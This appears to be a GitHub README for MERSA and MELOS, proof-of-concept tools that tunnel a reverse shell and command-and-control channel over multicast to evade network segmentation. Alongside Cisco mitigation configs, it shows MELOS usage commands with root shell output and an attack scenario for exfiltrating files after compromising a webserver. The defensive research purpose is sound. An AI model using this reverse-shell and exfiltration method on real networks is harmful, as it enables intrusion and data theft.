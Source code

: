 # Multicast Encrypted RSA (MERSA)
```csharp
   o       .                         o      .
                      .
  .   dBBBBBBBb dBBBBP dBBBBBb  dBBBBP dBBBBBb 
     dB'   'dP dB     dB  dBP dBP'         'BB 
    dB'dB'dB' dBBP   dBBBBP' 'BBBBb   dBBBPBB'  .
   dB'dB'dB' dBP    dBP  BB     dBP  dBP   BB' 
  dB'dB'dB' dBBBBP dBP  dB  dBBBBP' 'dBBBBBB' 
     .                                          
                                .
         .         o    
                                        .
  .      |      
       --o--      MERSA-FULLY      .
         |                                   o
 o             .
```

# Overview

 - [Documentation](./README.md#About)
 - [PoC Testing Tools](./PoC/)
 - [Configuration Solutions](./README.md#Patching)
 - [Program Usage Example](./README.md#MELOS-Usage)
 - [Additional Information](./README.md#Additional-Information)

# About

Multicast Encrypted RSA (MERSA) and Multicast Encrypted Low Operations Shell (MELOS) are PoC tools that demonstrate how multicast can be used to undermine network security policies and bypass point-to-point network restrictions.

Multicast-Tunneling is a vulnerability that is not specific to any vendor and affects networks without the appropriate controls for multicast traffic. It occurs when multicast packets from one network segment can reach restricted servers or devices on another segment. Multicast uses protocols IGMP (L3) or PIM (L2) to route packets and works above the Internet Protocol (IP). This enables a connection between two unintended network segments that can be utilized for lateral movement, aiding in the extraction of information or the control over devices across the network.

Multicast traffic restrictions are often neglected, creating a potential risk that could go unnoticed. The primary goal of MERSA is to highlight the potential vulnerabilities imposed by multicast. The best way to minimize these risks, is to disable it on the restricted interfaces in router's configuration files. In the case that disabling multicast is not feasible, extra measures can be taken to ensure multicast traffic is contained.

# Patching

> Configuring your network with VLANs and proper configurations can mitigate most of the risks associated with multicast.

> Please consult your network administrator prior to making any changes to router configurations. Making unscheduled modifications to the configurations can have adverse effects on the services or devices operating within the network.

**How to disable multicast for Cisco IOS XE 3.2SE+**

> We advise disabling multicast on the interfaces that face public access points. This helps prevent potential issues that may arise from globally disabling multicast. 

```ruby
! Disable all multicast traffic
router(config)# no ip multicast-routing
router(config)# no ip igmp
router(config)# no ip pim

! Disable multicast on a specific interface
router(config)# interface gigabitethernet 0/0/0
router(config-if)# no ip multicast-routing
router(config-if)# no ip igmp
router(config-if)# no ip pim
router(config-if)# end
```

**How to log multicast interactions for Cisco IOS XE Everest 16.6.1+**
> Enabling logs can assist the incident response team in investigating a breach.
```ruby
! Permit a range for allowed multicast channels
router(config)# ip igmp profile 40
router(config-igmp-profile)# permit
router(config-igmp-profile)# range 224.0.0.1 233.255.255.255
router(config-igmp-profile)# exit
router(config)# interface gigabitethernet 0/0/0
router(config-if)# switchport
router(config-if)# ip igmp filter 40
router(config-if)# end

! Dedicate percentage of memory for caching multicast
router(config-mdns)# cache-memory-max 10

! Enable explicit tracking of hosts, groups, and channels for IGMPv3
! When explicit tracking is enabled, the device will use more memory
router(config)# ip multicast-routing
router(config)# interface gigabitethernet 0/0/0
router(config-if)# ip pim sparse-dense-mode 
router(config-if)# ip igmp version 3 
router(config-if)# ip igmp explicit-tracking
router(config-if)# end

```

**How to prevent unnecessary forwarding of multicast packets Cisco IOS XE 3.2SE+**
> Network switches may be unaware of which network devices are part of multicast groups, and which are not. It may end up forwarding multicast traffic to devices that do not need it, which takes up network bandwidth and device processing power, slowing the entire network down. IGMP Snooping allows the switch to follow communications and stop forwarding packets when unnecessary.
```ruby
! Enable IGMP Snooping Globally
router(config)# ip igmp snooping
! Enable IGMP Snooping for a VLAN
router(config)# ip igmp snooping vlan 10

! PIM Sparse Mode (PIM-SM) will reduce the spread of multicast traffic
router(config)# interface gigabitethernet 0/0/0
router(config-if)# ip pim sparse-mode
router(config-if)# end
```

# MELOS Usage

**Start 'MELOS.py -l' reverse shell on target**
> Changing the password will allow MELOS to run on multiple hosts at the same time.

```csharp
$ python3 melos.py --listen --password M3L05

    =[ Awaiting on 224.0.0.251:10020    ]

[10.200.40.5:55000] whoami
[10.200.40.5:55000] ifconfig
[10.200.40.5:55000] ls

```

**Start 'MELOS.py -c' command and control client**
> The password must be the same as the client otherwise the commands will not be decrypted.

```csharp
$ python3 melos.py --cmd --password M3L05

    =[ MELOS C2 224.0.0.251:10050       ]
    
melos@224.0.0.251:10050 $ whoami
     =[ Packet From 10.250.60.15:55000  ]
root
```

# Additional Information

## Attack Scenario
> Imagine that you are in a network that hosts a webserver, but due to network restrictions, you cannot interact with it or observe its traffic. By launching an attack on the external webpage and acquiring code execution, you can utilize MELOS to gain a reverse shell. This will enable you to exfiltrate files and data through the network to your device without being denied by the current policies. The use of MELOS and MERSA will depend on factors such as the network type, current configurations, and the number of security layers in place. However, if remote code execution is already established, it's probable that multicast has been not considered in the network's security measures.

## Tremeris Kynigoskylo (Three Headed Hound)
> MERSA is a less potent iteration of the Tremeris Kynigoskylo (TK-PoC) software developed by 0xFNDH. MERSA poses a significantly lower risk and can be detected through various network intrusion detection systems and network monitoring applications. However, TK-PoC was created to covertly extract files from internal networks without being detected or displaying any unusual activity. MERSA and MELOS are proof-of-concept and do NOT demonstrate the full exploitability of multicast. If your goal is to maximize the effective security of your network, please take into consideration how protocols like multicast move throughout your network.

> This research is designed to raise awareness of the potential risks associated with IGMP and multicast. 

## Resources

> [Cisco Multicast Commands](https://www.cisco.com/c/en/us/td/docs/switches/lan/catalyst3850/software/release/16-12/command_reference/b_1612_3850_cr/ip_multicast_routing_commands.html)

> [Cloudflare IGMP Introduction](https://www.cloudflare.com/learning/network-layer/what-is-igmp/)

> [IANA Multicast Addresses](https://www.iana.org/assignments/multicast-addresses/multicast-addresses.xhtml)
